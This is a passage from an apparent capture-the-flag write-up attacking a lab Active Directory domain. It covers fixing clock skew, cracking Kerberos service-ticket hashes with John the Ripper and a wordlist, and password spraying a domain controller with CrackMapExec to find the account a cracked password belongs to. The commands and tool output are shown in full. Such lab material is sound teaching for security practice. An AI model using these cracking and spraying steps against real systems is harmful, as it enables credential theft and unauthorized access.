 No hashes appear at first, but this may be due to the “Clock skew too great” error, which is quite common.

We fix this issue with the following command:
```bash
sudo rdate -n 10.0.4.17
```

After retrying, we successfully obtain `hashes` for each of the services. We store all of them in a file named `hassh.txt`, ready to attempt `cracking`.

# HASH CRACKING

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt  hassh.txt
```
Info:
```
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123!!    (?)     
1g 0:00:00:31 92.26% (ETA: 15:47:59) 0.03155g/s 419972p/s 2018Kc/s 2018KC/s 128268..12800151
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```

We manage to recover one plaintext password from these hashes, but we do not initially know which account it belongs to.
To identify the correct user, we run `password spraying` again.

```bash
crackmapexec smb 10.0.4.17 -u userss.txt -p 'Password123!!' --continue-on-success --no-bruteforce
```

Info:
```
SMB         10.0.4.17       445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.0.4.17       445    DC01             [+] SOUPEDECODE.LOCAL\file_svc:Password123!! 
SMB         10.0.4.17       445    DC01             [-] SOUPEDECODE.LOCAL\firewall_svc:Password123!! STATUS_LOGON_FAILURE 
SMB         10.0.4.17       445    DC01             [-] SOUPEDECODE.LOCAL\backup_svc:Password123!! STATUS_LOGON_FAILURE 
SMB         10.0.4.17       445    DC01             [-] SOUPEDECODE.LOCAL\web_svc:Password123!! STATUS_LOGON_FAILURE 
SMB         10.0.4.17       445    DC01             [-] SOUPEDECODE.LOCAL\monitoring_svc:Password123!! STATUS_LOGON_FAILURE
```

This confirms the plaintext credentials for user `file_svc`.
Next, we check whether the `file_svc` account can access the SMB share `backup`.

# SMB with user file_svc
